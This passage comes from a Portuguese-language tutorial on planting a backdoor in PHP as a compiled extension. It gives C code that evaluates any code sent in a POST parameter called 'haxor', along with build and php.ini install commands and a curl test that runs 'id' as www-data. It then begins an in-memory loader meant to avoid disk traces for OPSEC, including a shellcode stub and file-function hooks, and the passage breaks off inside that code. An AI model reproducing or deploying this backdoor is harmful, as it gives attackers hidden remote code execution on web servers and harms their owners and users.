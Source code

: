 ```c
    #else //se a versao do php for acima de 7
        zval* arr,*code = NULL;
        if (arr = zend_hash_str_find(&EG(symbol_table), metodo, sizeof(metodo) - 1)) { //se o metodo for post
            if (Z_TYPE_P(arr) == IS_ARRAY && (code = zend_hash_str_find(Z_ARRVAL_P(arr), haxor, strlen(haxor)))) { //se o haxor (l33t) for encontrado na requisicao
                zend_eval_string(Z_STRVAL_P(code), NULL, (char *)"" TSRMLS_CC); //executa o codigo passado no `haxor=`
            }
        }
    #endif
    return SUCCESS;
}
```
Arquivo `config.m4`:
```
PHP_ARG_ENABLE(l33t, 0, 0)
PHP_NEW_EXTENSION(l33t, l33t.c, $ext_shared)
```
Para compilar:
```
~$ phpize && ./configure && make && (sudo||doas make install)
```
Agora precisamos adicionar a extensão no `php.ini` e reiniciar o php
```
~# echo 'extension=l33t.so'>>/etc/php.ini
```
```
~# service php-fpm restart
```
Testando
```
~$ curl http://0.0.0.0:8443/index.php -d "l33t=system('id');"
uid=33(www-data) gid=33(www-data) grupos=33(www-data)
```
Fácil, né?
# A técnica reforçada (usando um `dlopen()` modificado para carregar uma shared library/object na memória)
Há várias formas de carregar a extensão diretamente da memória (e não do disco, por questões de OPSEC). Eu poderia re-utilizar o código do [mimix](https://github.com/m1m1x) em seu projeto [memdlopen](https://github.com/m1m1x/memdlopen) mas vou usar outro skel
```c
#include "php.h"
#include "ext/standard/info.h"
#include <sys/mman.h>
#include <pthread.h>
#ifndef ZEND_PARSE_PARAMETERS_NONE
#define ZEND_PARSE_PARAMETERS_NONE() \
    ZEND_PARSE_PARAMETERS_START(0, 0) \
    ZEND_PARSE_PARAMETERS_END()
#endif
typedef struct {
    void * data;
    size_t size;
    size_t current;
} lib_t;
lib_t libdata;
char stub[] = {0x55, 0x48, 0x89, 0xe5, 0x48, 0xb8, 0, 0, 0, 0, 0, 0, 0, 0, 0xff, 0xd0, 0xc9, 0xc3};
size_t stub_length = 18;
#define LIBC "/usr/lib/x86_64-linux-gnu/libc.so.6"
//hookz
int     my_open(const char *pathname, int flags); 
off_t   my_pread64(int fd, void *buf, size_t count, off_t offset);
ssize_t my_read(int fd, void *buf, size_t count);
```